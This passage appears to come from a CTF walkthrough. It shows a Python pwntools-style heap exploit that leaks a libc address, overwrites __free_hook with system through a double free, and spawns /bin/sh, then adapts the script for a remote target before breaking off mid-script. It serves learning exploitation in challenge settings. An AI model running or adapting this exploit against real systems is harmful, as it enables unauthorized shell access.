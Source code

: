 ```python
        add(4, 0x20, 'aaa')
        ctx.clean()
        add(5, 0x20, p64(0xfbad2087))
        ru('gift :')
        stderr = int(ru('\n'), 16)
        
        libc_base = stderr - 4114048
        free_hook = libc_base + 4118760
        system = libc_base + 324672
        
        add(6, 0x30, 'ccc')
        ru('>')
        remove(1)
        ru('>')
        remove(1)
        ru('>')
        add(7, 0x30, p64(free_hook))
        ru('>')
        add(8, 0x30, 'aaa')
        ru('>')
        add(9, 0x30, p64(system))
        ru('>')
        add(10, 0x40, '/bin/sh\0')
        ru('>')
        remove(10)
        sl('ls')
        sl('ls')
        irt()
    except KeyboardInterrupt:
        break
    except EOFError:
        continue
```

__note__
- `EOFError`: exploit error, brute force failed.
- `KeyboardInterrupt`: recommended.
- `sl('ls')`: insure `EOFError` when process died.
- remember to disable `dbg`
- `log_level`: `info` is recommended for brute force.

just copy those into `IPython` and wait for several minutes.

## step 6

exploit remote target.

pretty simple. change `rs()` to `rs('remote')`.

full exploit.

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
```